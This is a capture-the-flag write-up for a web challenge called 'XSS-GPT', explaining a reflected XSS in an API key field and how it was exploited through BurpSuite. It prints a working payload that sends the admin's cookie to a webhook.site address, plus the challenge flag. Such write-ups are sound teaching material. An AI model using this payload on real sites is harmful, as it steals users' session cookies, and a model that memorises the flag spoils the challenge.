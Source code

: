 Name              : Lai Jian Hui <br>
Challenge Category: Web <br>
Challenge Name    : XSS-GPT <br>

## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72) <br>

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083) <br>
XSS is a success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624) <br>
Fire up BurpSuite and capture the reportAdmin request and send it to Repeater, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service
<br>
<br>

![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc) <br>
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite <br>
<br>
<br>

![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d) <br>
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.
<br>
<br>

![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea) <br>
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>
We encode the payload as URL format because the reportAdmin function specifies the key value must be encodeURIComponent.
<br>
<br>

![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866) <br>
Copy the URL encode format XSS payload and replace the null value of the key and send the request. When the Response give you a 200 OK status, we can go to the webhook.site to check for latest changes happen at hosting server.
<br>
<br>

![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18) <br>
The flag is at the quesry string section. Yatta!
<br>
<br>

**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
